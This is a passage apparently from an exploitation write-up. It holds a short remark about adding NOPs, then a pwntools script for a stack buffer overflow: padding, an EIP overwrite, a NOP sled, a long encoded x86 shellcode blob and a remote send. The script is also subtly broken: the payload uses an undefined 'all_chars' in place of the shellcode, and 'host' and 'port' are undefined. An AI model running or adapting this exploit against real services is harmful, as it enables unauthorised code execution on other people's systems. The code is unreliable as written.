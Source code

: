 I add the generated shellcode to my exploit and add some nops to it so the program will have time to execute the shellcode
```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    eip = p32(0x0040D7ED)
    
    nops = b"\x90" * 32

    shellcode =  b""
    shellcode += b"\xdb\xdf\xd9\x74\x24\xf4\xba\x4e\x4a\x17\xbe"
    shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
    shellcode += b"\x03\x1e\x59\xf5\x4b\x62\xb5\x7b\xb3\x9a\x46"
    shellcode += b"\x1c\x3d\x7f\x77\x1c\x59\xf4\x28\xac\x29\x58"
    shellcode += b"\xc5\x47\x7f\x48\x5e\x25\xa8\x7f\xd7\x80\x8e"
    shellcode += b"\x4e\xe8\xb9\xf3\xd1\x6a\xc0\x27\x31\x52\x0b"
    shellcode += b"\x3a\x30\x93\x76\xb7\x60\x4c\xfc\x6a\x94\xf9"
    shellcode += b"\x48\xb7\x1f\xb1\x5d\xbf\xfc\x02\x5f\xee\x53"
    shellcode += b"\x18\x06\x30\x52\xcd\x32\x79\x4c\x12\x7e\x33"
    shellcode += b"\xe7\xe0\xf4\xc2\x21\x39\xf4\x69\x0c\xf5\x07"
    shellcode += b"\x73\x49\x32\xf8\x06\xa3\x40\x85\x10\x70\x3a"
    shellcode += b"\x51\x94\x62\x9c\x12\x0e\x4e\x1c\xf6\xc9\x05"
    shellcode += b"\x12\xb3\x9e\x41\x37\x42\x72\xfa\x43\xcf\x75"
    shellcode += b"\x2c\xc2\x8b\x51\xe8\x8e\x48\xfb\xa9\x6a\x3e"
    shellcode += b"\x04\xa9\xd4\x9f\xa0\xa2\xf9\xf4\xd8\xe9\x95"
    shellcode += b"\x39\xd1\x11\x66\x56\x62\x62\x54\xf9\xd8\xec"
    shellcode += b"\xd4\x72\xc7\xeb\x1b\xa9\xbf\x63\xe2\x52\xc0"
    shellcode += b"\xaa\x21\x06\x90\xc4\x80\x27\x7b\x14\x2c\xf2"
    shellcode += b"\x2c\x44\x82\xad\x8c\x34\x62\x1e\x65\x5e\x6d"
    shellcode += b"\x41\x95\x61\xa7\xea\x3c\x98\x20\xd5\x69\x9a"
    shellcode += b"\xb1\xbd\x6b\xda\x92\x14\xe5\x3c\xbe\x76\xa3"
    shellcode += b"\x97\x57\xee\xee\x63\xc9\xef\x24\x0e\xc9\x64"
    shellcode += b"\xcb\xef\x84\x8c\xa6\xe3\x71\x7d\xfd\x59\xd7"
    shellcode += b"\x82\x2b\xf5\xbb\x11\xb0\x05\xb5\x09\x6f\x52"
    shellcode += b"\x92\xfc\x66\x36\x0e\xa6\xd0\x24\xd3\x3e\x1a"
    shellcode += b"\xec\x08\x83\xa5\xed\xdd\xbf\x81\xfd\x1b\x3f"
    shellcode += b"\x8e\xa9\xf3\x16\x58\x07\xb2\xc0\x2a\xf1\x6c"
    shellcode += b"\xbe\xe4\x95\xe9\x8c\x36\xe3\xf5\xd8\xc0\x0b"
    shellcode += b"\x47\xb5\x94\x34\x68\x51\x11\x4d\x94\xc1\xde"
    shellcode += b"\x84\x1c\xe1\x3c\x0c\x69\x8a\x98\xc5\xd0\xd7"
    shellcode += b"\x1a\x30\x16\xee\x98\xb0\xe7\x15\x80\xb1\xe2"
    shellcode += b"\x52\x06\x2a\x9f\xcb\xe3\x4c\x0c\xeb\x21"

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    
```
